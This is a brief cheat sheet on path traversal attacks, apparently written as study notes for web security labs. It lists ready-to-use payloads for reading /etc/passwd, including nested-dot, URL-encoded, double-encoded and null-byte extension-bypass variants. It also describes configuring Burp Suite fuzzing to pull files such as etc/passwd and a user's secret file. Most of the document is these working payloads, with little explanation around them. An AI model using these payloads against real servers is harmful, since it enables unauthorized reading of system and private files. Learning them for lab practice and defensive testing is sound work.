

# Path Traversal - CHEATSHEET

## CHEATSHEET

> inspect images

```bash
#null byte = \0 -> %00
../../../../../etc/passwd
....//....//....//etc/passwd
..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd 
/var/www/../../../etc/passwd
../../../../../etc/passwd%00.jpg # bypass extension  via byte null

In burpsuite professional you can add a list to fuzzing path traversal.

After that: payload processing -> add rule -> match & replace -> \{file\} for <file-you-want>

Example:
POC       -> \{file\} for etc/passwd 
SECRET    -> \{file\} for home/carlos/secret

